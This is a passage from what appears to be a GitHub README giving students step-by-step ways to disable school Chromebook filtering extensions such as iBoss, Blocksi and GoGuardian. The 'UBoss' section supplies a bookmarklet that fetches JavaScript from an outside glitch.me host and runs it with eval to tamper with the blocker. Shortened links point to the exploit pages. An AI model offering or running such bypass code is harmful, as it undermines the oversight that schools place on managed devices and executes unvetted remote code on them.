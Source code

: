 [Go to this page](https://tinyurl.com/goofboss)

#### Cisco Umbrella

[Go to this page](https://tinyurl.com/goofumbrella)

#### Blocksi

[Go to this page](https://tinyurl.com/goofsi)

#### GoGuardian

[Go to this page](https://tinyurl.com/goofguardian)

If your school updated GoGuardian, this exploit may not work.

### Extra Notes

- Now most of these links are a block page (this is intentional) 
- Each page should have a blue link, click the link on the page if it opens a blank page click the bookmarklet that you just made 
- Click either hard disable or soft disable, soft disable will only disable it until you restart your Chromebook.
- You can also run some of the scripts and run your own code, your extension may disable javascript running on it, so running your own code may not work.
- I recommend doing soft disable, which only disables it until restart. 
- The idea was from <a href="https://bolg.glitch.me/_/point-blank/">Bypassi#7037</a>

[**🔼 Back to top**](#ext-remover)

## UBoss *Tamper with IBoss*

This works only for iBoss, and Blocksi, If you don't have one of these, use New Point Blank.

### Requirements
- Bookmarklets enabled
- Access to a working brain

### Getting started
1. Go to the corresponding link for your blocker below.

iBoss: [tinyurl.com/byeswamp](https://tinyurl.com/byeswamp)

Blocksi: [tinyurl.com/blockboss](https://tinyurl.com/blockboss)

Then bookmark the code below:

```js
javascript:opener.eval(`fetch("https://rounded-boiling-flax.glitch.me/uboss.js").then(data=>{data.text().then(e=>{eval(e)})})`) && close();
```
2. Then go to the site with your blocker that was listed above.
3. Run the code. Follow the instructions there.

If it doesn't work let us know by creating a discussion, this was made in partnership with `akabutnice` and `bypassi`.
